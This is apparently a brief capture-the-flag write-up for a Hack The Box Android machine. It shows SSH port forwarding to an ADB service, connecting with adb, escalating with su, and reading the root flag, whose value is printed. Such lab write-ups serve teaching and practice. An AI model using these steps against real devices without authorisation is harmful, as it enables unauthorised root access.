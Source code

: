 ```yaml
---
layout: post
title: Access ADB as root
description: Access ADB as root
summary: Access ADB as root
tags: [android,privesc,mobile]
minute: 1
---
```

* Do local port forwarding so you can access abd shell on localhost

```bash
ssh kristi@htb -p 2222 -L 5555:localhost:5555
```

* Connect to adb shell

```bash
adb connect localhost:5555
```

* Verify

```bash
➜  explore adb devices               
List of devices attached
htb:2222	offline
localhost:5555	device
```

* Enjoy

```
adb -s localhost shell
127|x86_64:/ $ whoami
shell
x86_64:/ $ su
:/ # cat data/root.txt
f04fc82b6d49b41c9b08982be59338c5
:/ #
```